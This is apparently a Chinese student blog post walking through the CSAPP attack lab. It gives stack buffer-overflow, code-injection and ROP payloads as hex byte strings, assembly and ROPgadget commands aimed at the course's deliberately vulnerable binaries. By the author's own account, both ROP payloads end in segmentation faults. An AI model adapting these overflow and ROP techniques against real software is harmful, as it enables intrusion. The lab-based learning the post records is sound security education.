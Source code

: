 #! https://zhuanlan.zhihu.com/p/560012698
![image](https://w.wallhaven.cc/full/39/wallhaven-39xr96.jpg)

# CSAPP lab3: attacklab

## 碎碎念

假期真的想摸，两天能写完的 lab 硬是写了 5 天。。。
马上就开学了，结果想玩的游戏一个没玩完，真的电子游戏阳尾了

## 题目与解法

### level1

思路：这里是通过`<getbuf>`中`<Gets>`存在的缓冲区溢出的问题，来污染栈区内存，而`<test>`调用了 getbuf，调用的 call 指令会执行一个 push %rip，所以只要把此处被 push 的内存改为我们希望跳转到的位置——也就是 touch1 函数，就能完成目的
而因为 getbuf 开了 0x28 的栈内存，所以只需要填充完 0x28 个字节，接下来的 8 字节就是 ret 的位置——原来是返回 test，现在我们要执行 touch1
值得注意的是读入的数据要与期望的数据列相反（x86 是小端法存储），即如果想读如

```
01 02 03 04 05 06 07 08
c3 57 44 0f 01 00 00 00
```

则应该读如

```
08 07 06 05 04 03 02 01
00 00 00 01 0f 44 57 c3
```

解法：

1. `touch attack1.txt`
2. 在其中加入

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00 /* 00000000004017c0 <touch1> */
```

3. 执行`./hex2raw < attack1.txt > attack1raw.txt`
4. `./ctarget -qi < attack1raw.txt`

### level2

思路：需要传参，而这个参数存在%rdi，所以需要注入代码完成`mov $0x59b997fa, %rdi # cookie为59B997FA`，而注入的代码当然也是在栈段（因为我们只能在此处注入），注入后再返回到 touch2，任务完成
注入的代码是机器码，所以我们需要先写汇编代码，再用 gcc 转化为机器码，再通过 objdump 查看反汇编
我们需要在 getbuf 的 ret 位置放我们注入的代码的位置，而由于现在还没有栈随机化，所以栈的位置是确定的，所以可以通过 gdb 获得位置
解法：

1. `touch attack2.txt attack2.s`
2. 在 attack2.s 中加入

```s
mov $0x59b997fa, %rdi # cookie, 59B997FA=1505335290
pushq $0x4017ec # 0x4017ec是touch2的开始地址
retq
```

3. `gcc -c attack2.s`
4. `objdump -d attack2.o > attack2.d`
   此时`cat attack2.d`，会得到

```s
attack2.o：     文件格式 elf64-x86-64
Disassembly of section .text:
0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq
```

所以只需要把机器码部分添加到栈段即可

5. 在 attack2.txt 中加入

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

6. 剩下如 attack1

### level3

思路：这个阶段需要我们传入字符串格式的 cookie，其中%rdi 为字符串的首地址，由于我们只能修改栈段，所以我们要在栈段放字符串，而由于 touch3 调用的函数可能会修改栈段的内容从而导致我们的字符串被覆盖，所以我们要模仿开栈的方式`sub`指令手动开栈段（反正不会返回到 test，会自动结束程序所以不会有 segment fault）
解法：

1. 在 attack3.s 中加入如下内容

```s
sub $0x18,%rsp # 减出一个放cookie的位置
mov $0x5561dc90, %rdi # cookie首位置
pushq $0x4018fa # 0x4018fa是touch3的开始地址
retq
```

2. 得到内容后在 attack3.txt 中加入

```
48 83 ec 20 48 c7 c7 90
dc 61 55 68 fa 18 40 00
c3 00 00 00 00 00 00 00
35 39 62 39 39 37 66 61 /* 字符串 */
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

### ROP level2

接下来的两个题目都是通过 ROP(Return-Orientated Programing)方法来实现攻击的，因为现在的 level2 与 level3 都做了栈随机化与栈不可执行化操作，所以无法做代码注入
所以我们只能想办法去通过执行本身就有的代码来完成攻击（但栈段可读，所以 cookie 之类数据依然可以注入，栈段也可以放返回地址），但自身有的代码通常不能直接达成目的，所以我们要对原有的代码“断章取义”来创造自己的代码，从而完成目的
比如此处`401419: 69 c0 5f c3 00 00 imul $0xc35f,%eax,%eax`，如果直接从 40141b 处执行，则相当于执行了`5f c3`，等同于执行了`pop rdi; ret;`，这就是 ROP 攻击，而这种被断章取义的最后结尾是`ret`的东西就叫做`gadget`
此处提供一个能找 gadget 的工具（这个工具我玩的不是很溜，所以有些 gadget 用这个发现不了），是我在读这篇文章中看到的：[
Introduction to CSAPP（二十）：这可能是你能找到的最具捷径的 attacklab 了](https://zhuanlan.zhihu.com/p/104340864)
思路：如果能直接找到一句`pop rdi; ret;`，那么问题直接就解决了
解法：

1. `ROPgadget --binary ./rtarget --only "pop|ret" | grep rdi`，然后找到了这么句话
2. 据此在 attack4.txt 中加入

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
1b 14 40 00 00 00 00 00 /* pop rdi ; ret */
fa 97 b9 59 00 00 00 00 /* cookie */
ec 17 40 00 00 00 00 00 /* touch2 */
```

但不知道为什么会变成这样

```shell
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
Ouch!: You caused a segmentation fault!
Better luck next time
FAIL: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:FAIL:0xffffffff:rtarget:0:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 1B 14 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 EC 17 40 00 00 00 00 00
```

但结果理论上应该是对的才对，猜测是因为题目要求在 farm 区间中选择 gadget，但我用的 gadget 不在个区间中

### ROP level3

此题难点在于栈随机化后得想办法得到栈位置，然后才能反算出 cookie 字符串的位置
思路：通过`ROPgadget --binary ./rtarget --only "mov|ret" | grep rsp`，能够找到`mov rsp,rax; ret`，然后`ROPgadget --binary ./rtarget --only "mov|ret" | grep rax`能找到`mov rax,rdi; ret`
所以我们已经解决了找 rsp 的问题，接下来的问题就是怎么想办法让 rdi 增加到我们设定的 cookie 的位置；然而通过 ROPgadget 找`add`，并没有解决问题，重新去看 rtarget 汇编代码，发现了这么一句话`lea (%rdi,%rsi,1),%rax`，问题迎刃而解，只需要设定 rsi 的值就行了，所以我们`ROPgadget --binary ./rtarget --only "pop|ret" | grep rsi`，结果还真有想要的东西，问题解决！
解法

1. 在 attack5.txt 中加入

```s
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 /* mov rsp,rax; ret */
a2 19 40 00 00 00 00 00 /* mov rax,rdi; ret */
83 13 40 00 00 00 00 00 /* pop rsi ; ret */
30 00 00 00 00 00 00 00
d6 19 40 00 00 00 00 00 /* lea (%rdi,%rsi,1),%rax ; ret */
a2 19 40 00 00 00 00 00 /* mov rax,rdi; ret */
fa 18 40 00 00 00 00 00 /* touch3 */
35 39 62 39 39 37 66 61 /* cookie */
00 00 00 00 00 00 00 00
```

然后这个理论上是对的才对，结果还是 segment fault 了。。。

## 感悟

1. gdb 与反汇编能力有了长进
2. 学到了一些简单的攻击方法，还挺有意思的
